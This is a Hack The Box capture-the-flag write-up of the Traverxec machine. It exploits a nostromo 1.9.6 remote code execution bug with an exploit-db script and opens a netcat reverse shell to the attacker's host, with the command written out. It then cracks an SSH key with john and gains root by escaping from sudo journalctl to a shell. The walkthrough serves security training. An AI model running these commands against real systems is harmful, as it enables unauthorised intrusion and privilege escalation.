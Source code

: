 ```yaml
---
layout: single
title: "Hack The Box Write-up #1 : Traverxec"
excerpt: "My walkthrough of Traverxec Machine from HackTheBox"
date: 2020-04-11
header:
  teaser: /assets/images/traverxec-walkthrough/traverxec.png
  teaser_home_page: true
categories:
  - hackthebox
  - infosec
tags:
  - nostromo  
  - journalctl
  - gtfobins
---
```


![Card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/traverxec.png)

## Enumeration

We start by doing a nmap scan which gives the following results :


```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-12-21 04:12 EST
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.26s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.82 seconds
```

We have 2 ports opened from the initial scan : 22 (SSH) , 80 (HTTP) …                                                            
Before even trying to enumerate the webpage , We can notice “nostromo 1.9.6” running on port 80.                                  

I made a quick research of the mentioned service running on the webpage and ended up with the
following results :
```
root@kali:~# searchsploit "nostromo 1.9.6"
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
nostromo 1.9.6 - Remote Code Execution | exploits/multiple/remote/47837.py
--------------------------------------- ----------------------------------------
```

- Command Execution… 

That seems nasty.
First lets copy the the script to a more flexible directory and start to test it.

```
cp /usr/share/exploitdb/exploits/multiple/remote/47837.py  /root/machines/traverxec
```

```
python 47837.py
```

![rce](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t3.png)

We see there are 3 required parameters : 
- Target ip address (10.10.10.165) 
- Target Port (80) 
- Command to execute (ex. Whoami).

```
python 47837.py 10.10.10.165 80 whoami
```

![proof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t4.png)

As we see … we could execute commands to the remote server using the script from exploitdb.
Lets try and see if we can get ourselves a reverse shell to have a better experience while running commands on the remote server.

We are going to use netcat to do this…

```
python 47837.py 10.10.10.165 80 “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.140 9001 >/tmp/f”
```

![shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t5.png)

We have a reverse shell on the remote server as www-data.
From now we can try and enumerate the webserver in /var/nostromo :

![enum](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t6.png)

There seems to be the conf folder which may include possible information on how to escalate to user.

Reading nhttpd.conf file We see a lot of juicy information :

![conf](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t7.png)

We can see that david which is also an user in the current machine seems to have been configured as the server admin, and more than that we can see that the public_www folder is located in /home

While we tried to enumerate … there was no such public_www in /home :

![home](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t8.png)

But since we saw : david was the server admin , the public_www should probably be inside his folder too.
We cannot actually list the files inside david home folder but we can try to directly access the mentioned directory as www-data and see if we can find something else :

![data](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t9.png)

As expected , we could directly access : public_www and we see the index.html file alongside an interesting directory claiming to hold protected files .                                                                                                                                                          
There seems to be a backup of the ssh keys inside there so I grabbed the files to my machine to try and login as user david

![backup](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/tx.png)

## USER ESCALATION

id_rsa seems to be encrypted and we can probably use john to convert and try to crack it :
![hash](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t10.png)

We pass the generated ssh hash to john and run it against rockyou.txt wordlist to see if we could get anything interesting…

![key](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t11.png)

John managed to succesfully crack the file , and the key seems to be “hunter”.                                                  
Lets try and login with the file since we have its key now :

![ssh](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t12.png)

We could succesfully login using ssh and now we can also easily grab the user flag. :)


## ROOT ESCALATION

After logging in , this is what we have in the home folder except user.txt :

![content](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t13.png)

- bin seems interesting , so we will enumerate it a little more to see what could it bring to us…

We have 2 files inside bin folder :

- A script written in bash which happens to read the last 5 log lines of nostromo :

![script](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t14.png)

- A header for the above script :

![header](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t15.png)

By analyzing the first script , we see that it is running journalctl as sudo against nostromo service to show the last 5 lines, and also I noticed that the execution of /usr/bin/cat prevents journalctl from remaining executed .

It looks like we have permissions to run the above sudo command against nostromo without the need of the password .

The bin folder is writable from our user so we can try to make another similar script but without usr/bin/cat in it . This way journalctl can remain executed on the script and we can try to abuse it somehow to escalate to root.

![customs](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t16.png)

As we see now , after executing our edited script , journalctl remains executed and now we can attempt to abuse it to gain root access …

The following website can help us with the simplest methods to escalate to a root shell from journalctl:
[GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/)

And as we see , we can simply type !/bin/sh in the running session of journalctl to get a system shell

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t17.png)

This happened to work perfectly … and now we have a shell executed as root .

![root](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/traverxec-walkthrough/t18.png)

This way we can easily navigate to root folder and grab the root flag.
